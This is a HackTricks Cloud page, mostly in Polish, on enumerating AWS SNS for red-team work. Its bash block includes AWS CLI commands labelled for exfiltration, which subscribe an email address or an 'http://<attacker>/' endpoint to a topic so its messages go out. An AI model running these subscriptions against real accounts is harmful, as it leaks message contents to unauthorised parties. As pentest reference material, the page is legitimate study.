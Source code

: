 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) jest opisana jako **w pełni zarządzana usługa komunikacji**. Obsługuje zarówno typy komunikacji **aplikacja-do-aplikacji** (A2A), jak i **aplikacja-do-osoby** (A2P).

Kluczowe cechy komunikacji A2A obejmują **mechanizmy publikacji/subskrypcji (pub/sub)**. Te mechanizmy wprowadzają **tematy**, które są kluczowe dla umożliwienia wysokowydajnej, **opartej na push, komunikacji wiele-do-wielu**. Ta funkcja jest bardzo korzystna w scenariuszach, które obejmują systemy rozproszone, mikroserwisy i architektury bezserwerowe oparte na zdarzeniach. Wykorzystując te tematy, systemy publikujące mogą efektywnie dystrybuować wiadomości do **szerokiego zakresu systemów subskrybujących**, ułatwiając wzorzec komunikacji fanout.

### **Różnica z SQS**

**SQS** to usługa **oparta na kolejkach**, która umożliwia komunikację punkt-punkt, zapewniając, że wiadomości są przetwarzane przez **jednego konsumenta**. Oferuje **dostawę przynajmniej raz**, obsługuje standardowe i FIFO kolejki oraz pozwala na przechowywanie wiadomości w celu ponownych prób i opóźnionego przetwarzania.\
Z drugiej strony, **SNS** to usługa **oparta na publikacji/subskrypcji**, umożliwiająca **komunikację jeden-do-wielu** poprzez nadawanie wiadomości do **wielu subskrybentów** jednocześnie. Obsługuje **różne punkty subskrypcyjne, takie jak e-mail, SMS, funkcje Lambda i HTTP/HTTPS**, oraz zapewnia mechanizmy filtrowania dla ukierunkowanej dostawy wiadomości.\
Chociaż obie usługi umożliwiają odseparowanie komponentów w systemach rozproszonych, SQS koncentruje się na komunikacji w kolejkach, a SNS podkreśla wzorce komunikacji oparte na zdarzeniach i fan-out.

### **Enumeracja**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Zauważ, że jeśli **temat jest typu FIFO**, tylko subskrybenci używający protokołu **SQS** mogą być używani (HTTP lub HTTPS nie mogą być używane).

Ponadto, nawet jeśli `--topic-arn` zawiera region, upewnij się, że określasz poprawny region w **`--region`**, w przeciwnym razie otrzymasz błąd, który wskazuje, że nie masz dostępu, ale problemem jest region.
{% endhint %}

#### Nieautoryzowany dostęp

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Eskalacja uprawnień

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Po eksploatacji

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Utrzymywanie

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Odniesienia

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

